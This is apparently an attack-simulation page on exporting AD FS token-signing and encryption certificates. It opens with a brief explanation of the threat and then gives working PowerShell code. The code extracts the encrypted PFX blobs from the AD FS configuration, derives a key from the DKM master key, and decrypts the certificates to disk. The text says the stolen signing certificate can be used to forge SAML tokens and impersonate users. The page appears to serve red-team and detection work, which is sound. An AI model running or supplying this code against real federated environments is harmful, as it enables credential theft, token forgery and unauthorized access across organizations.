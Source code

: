 # Export AD FS Certificates via .NET Reflection

Federation servers require token-signing certificates to prevent attackers from altering or counterfeiting security tokens to gain unauthorized access to Federated resources. The AD FS certificates (token signing and decryption) are stored in the AD FS database configuration, and they are encrypted using Distributed Key Manager (DKM) APIs. DKM is a client-side functionality that uses a set of secret keys to encrypt and decrypt information. Only members of a specific security group in Active Directory Domain Services (AD DS) can access those keys in order to decrypt the data that is encrypted by DKM.

when the primary AD FS farm is configured, an AD container (AD FS DKM container) is created in the domain controller and the DKM master key is stored as an attribute of an AD contact object located inside of the container. The AD FS DKM master key can then be used to derive a symmetric key and decrypt AD FS certificates.

A threat actor could use the `AD FS configuration settings` to extract sensitive information such as AD FS certificates (encrypted) and get the path to the AD FS DKM container in the domain controller. The `AD FS DKM master key` can then be retrieved from the AD container and used to decrypt AD FS certificate. Finally, the AD FS token signing certificate can be used to sign SAML tokens and impersonate users in a federated environment.

## Table of Contents

* [Preconditions](#preconditions)
* [Simulation Steps](#simulation-steps)
* [Output](#output)
* [References](#references)

## Preconditions

* Input:
    * AD FS Configuration Settings
    * AD FS DKM Master Key

## Simulation Steps

### Extract AD FS Token Signing Certificate

```PowerShell
[xml]$xml=$settings
$encTokenSigningPfx=$xml.ServiceSettingsData.SecurityTokenService.AdditionalSigningTokens.CertificateReference.EncryptedPfx
$encPfxBytes=[System.Convert]::FromBase64String($encTokenSigningPfx)
$encPfxBytes | Format-Hex
```


### Extract AD FS Encryption Certificate

```PowerShell
[xml]$xml=$settings
$encEncryptionPfx=$xml.ServiceSettingsData.SecurityTokenService.AdditionalEncryptionTokens.CertificateReference.EncryptedPfx
$encPfxBytes=[System.Convert]::FromBase64String($encEncryptionPfx)
$encPfxBytes | Format-Hex
```

### Decrypt Certificates

```PowerShell
$key = '<ADFS-DKM-KEY>'

$certs = [ordered]@{}
$certs["signing"] =    $encTokenSigningPfx
$certs["encryption"] = $encEncryptionPfx

# Iterate over certificate objets
foreach ($certType in $certs.Keys) {
    $encPfxBytes=[System.Convert]::FromBase64String($certs[$certType])
    $guid=        $encPfxBytes[8..25]  # 18 bytes
    $KDF_oid=     $encPfxBytes[26..36] # 11 bytes
    $MAC_oid=     $encPfxBytes[37..47] # 11 byte
    $enc_oid=     $encPfxBytes[48..58] # 11 bytes
    $nonce=       $encPfxBytes[59..92] # 34 bytes
    $iv=          $encPfxBytes[93..110] # 18 bytes
    $ciphertext = $encPfxBytes[115..$($encPfxBytes.Length-33)]
    $cipherMAC =  $encPfxBytes[$($encPfxBytes.Length-32)..$($encPfxBytes.Length)]

    # Create the label
    $label = $enc_oid + $MAC_oid

    # Derive the decryption key using (almost) standard NIST SP 800-108. The last bit array should be the size of the key in bits, but MS is using bytes (?)
    # As the key size is only 16 bytes (128 bits), no need to loop.
    $hmac = New-Object System.Security.Cryptography.HMACSHA256 -ArgumentList @(,$key)
    $hmacOutput = $hmac.ComputeHash( @(0x00,0x00,0x00,0x01) + $label + @(0x00) + $nonce[2..33] + @(0x00,0x00,0x00,0x30) )
    $decryptionKey = $hmacOutput[0..15]
    Write-Verbose "Decryption key:"
    Write-Verbose "$($decryptionKey|Format-Hex)"
    # Create a decryptor and decrypt
    $Crypto = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
    $Crypto.Mode="CBC"
    $Crypto.KeySize = 128
    $Crypto.BlockSize = 128
    $Crypto.Padding = "None"
    $Crypto.Key = $decryptionKey
    $Crypto.IV = $iv[2..17]
    $decryptor = $Crypto.CreateDecryptor()

    # Create a memory stream and write the cipher text to it through CryptoStream
    $ms = New-Object System.IO.MemoryStream
    $cs = New-Object System.Security.Cryptography.CryptoStream($ms,$decryptor,[System.Security.Cryptography.CryptoStreamMode]::Write)
    $cs.Write($ciphertext,0,$ciphertext.Count)
    $cs.Close()
    $cs.Dispose()

    # Get the results
    $decryptedBytes = $ms.ToArray()
    $ms.Close()
    $ms.Dispose()

    $CertificatePath = "C:\ProgramData\ADFS_$($certType)_$(get-date -format yyyy-MM-ddTHHmmssff).pfx"
    $decryptedBytes | Set-Content $CertificatePath -Encoding Byte

    Get-item $CertificatePath
}
```

## Output

* AD FS Encryption Certificate
* AD FS Token Signing Certificate

## References

* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
* [Token-Signing Certificates | Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/design/token-signing-certificates#:~:text=%20A%20token-signing%20certificate%20must%20meet%20the%20following,in%20the%20personal%20store%20of%20the...%20More%20)